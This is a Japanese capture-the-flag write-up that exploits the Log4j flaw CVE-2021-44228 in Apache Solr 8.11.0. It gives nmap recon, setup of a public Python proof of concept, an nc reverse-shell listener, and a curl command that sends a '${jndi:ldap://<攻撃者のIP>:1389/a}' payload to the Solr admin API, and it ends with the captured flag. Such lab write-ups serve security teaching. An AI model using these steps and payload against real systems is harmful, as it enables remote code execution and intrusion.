


# writeup

本問題では、Solr 8.11.0に存在するLog4jの脆弱性（CVE-2021-44228）を利用してシェルを取得する問題です。

## 脆弱性の概要

Log4j 2.14.1以前のバージョンでは、JNDI（Java Naming and Directory Interface）を使用したリモートコード実行の脆弱性が存在します。この脆弱性は、ログメッセージ内に特定の文字列（${jndi:ldap://...}など）が含まれている場合に、指定されたLDAPサーバーからJavaクラスをダウンロードして実行してしまうというものです。

詳細については[CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)および[JP-CERT](https://www.jpcert.or.jp/at/2021/at210050.html)を参照してください。

## 攻撃手順

### 1. 初期偵察（Reconnaissance）

まず、ターゲットサーバーで動作しているサービスとポートを特定します。

```bash
# 基本的なポートスキャンの実行例
nmap <ターゲットのIP>
```

実行結果例：
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-02 20:13 JST
Nmap scan report for ip-10-0-191-228.ap-northeast-1.compute.internal (10.0.191.228)
Host is up (0.0017s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 0.20 seconds
                                                          
```

この結果から、80番ポートでHTTPサービスが稼働していることが確認できます。

詳細なサービス情報を取得するため、バージョンスキャンを実行します：

```bash
# 詳細なバージョンスキャン
nmap -sV -sC -p80 <ターゲットのIP>
```

実行結果例：
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-02 20:14 JST
Nmap scan report for ip-10-0-191-228.ap-northeast-1.compute.internal (10.0.191.228)
Host is up (0.0017s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache Solr
| http-title: Solr Admin
|_Requested resource was http://ip-10-0-191-228.ap-northeast-1.compute.internal/solr/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.49 seconds
```

この結果から、80番ポートでApache Solrが動作していることが確認できます。

`http://<ターゲットのIP>` にアクセスすると `http://<ターゲットのIP>/solr/#/` へリダイレクトされApache Solrのダッシュボードが表示されます。

### 2. Solrサーバーのバージョン確認

ブラウザで `http://<ターゲットのIP>/solr/#/` にアクセスし、Solrのダッシュボードからバージョンを確認します。



ダッシュボードからSolr 8.11.0が動作していることを確認できます。このバージョンのSolrは、Log4j 2.14.1以前を使用しているため、Log4jの脆弱性（CVE-2021-44228）が存在することが確認できます。

Solr 8.11.0がLog4j脆弱性の影響を受けることは、[Apache Solrのセキュリティアドバイザリ](https://solr.apache.org/security.html)で確認できます。

### 3. Javaバージョンの確認・インストール

攻撃に使用するPoCスクリプトは、攻撃マシンでビルドしたJavaのコードをターゲットマシンで実行するため、ターゲットと攻撃マシンのJavaバージョンを確認します。

ターゲットのJavaバージョン確認：

- ブラウザで `http://<ターゲットのIP>/solr/~java-properties` にアクセス
- OpenJDKのversion "17.0.14"であることが確認できます



ターゲットのJavaで実行可能なバイトコードがビルド可能なJavaを攻撃マシンにインストールします。Browser Kaliの場合は `"17.0.8" 2023-07-18` が`/usr/bin/java`にあらかじめインストールされているので、追加でのインストールは不要です。

### 4. 攻撃用PoCの準備

Log4j脆弱性を利用した攻撃用のコードを探すため、`https://github.com/search`で「log4j poc」のキーワードで検索し、Languageをpythonで絞ると、[log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)が見つかります。

```bash
# log4j-shell-pocのクローン
git clone https://github.com/kozmer/log4j-shell-poc.git
cd log4j-shell-poc

# Python仮想環境の作成と有効化
python3 -m venv venv
source venv/bin/activate

# 必要なパッケージのインストール
pip install -r requirements.txt
```

### 5. PoCスクリプトの修正

PoCのREADMEには `Note: Make sure to extract the jdk folder into this repository with the same name in order for it to work.` とありますが、先ほど攻撃用マシンにインストールしたJavaを使用するため、スクリプトを修正します。

Browser Kaliの例：

```bash
sed -i 's|jdk1.8.0_20|/usr|g' poc.py
```

### 6. リバースシェル用のリスナーを起動

別のターミナルでリバースシェルを受け取るリスナーを起動します：

```bash
# 9001ポートでリバースシェルを受け取るリスナーを起動
nc -lvnp 9001
```

### 7. 攻撃スクリプトの実行

攻撃用のPoCスクリプトを実行します：

```bash
# 攻撃者のIPアドレスとポートを指定して実行
python3 poc.py --userip <攻撃者のIP> --webport 8000 --lport 9001
```

このPoCを実行すると1389番ポートでLDAPサーバーが起動します。

### 8. 生成されたペイロードを使用して攻撃

スクリプトが生成したペイロード（例：`${jndi:ldap://<攻撃者のIP>:1389/a}`）をSolrの管理APIに送信します。

この攻撃手法は、[Apache Log4j2のRCE脆弱性（CVE-2021-44228）を狙う攻撃観測](https://blogs.jpcert.or.jp/ja/2021/12/log4j-cve-2021-44228.html)や[log4jの0-day exploitを動かして理解する](https://zenn.dev/uu/articles/aace33b2957adc)で詳しく説明されています。

```bash
# curlを使用してペイロードを送信
curl -X POST -d '${jndi:ldap://<攻撃者のIP>:1389/a}' http://<ターゲットのIP>/solr/admin/cores
```

### 9. リバースシェルの確立とフラグの取得

ペイロードが実行されると、Solrサーバーは攻撃者のLDAPサーバーに接続し、悪意のあるJavaクラスをダウンロードして実行します。これにより、攻撃者のサーバーへのリバースシェルが確立されます。

リバースシェルが確立されたら、フラグファイルを探して内容を確認します：

```bash
# フラグファイルの取得
pwd
/opt/solr/server
ls
README.txt
contexts
etc
flag.txt
lib
logs
modules
resources
scripts
solr
solr-webapp
start.jar
cat flag.txt
flag{l0g4j_s0lr_r3vshell}
```
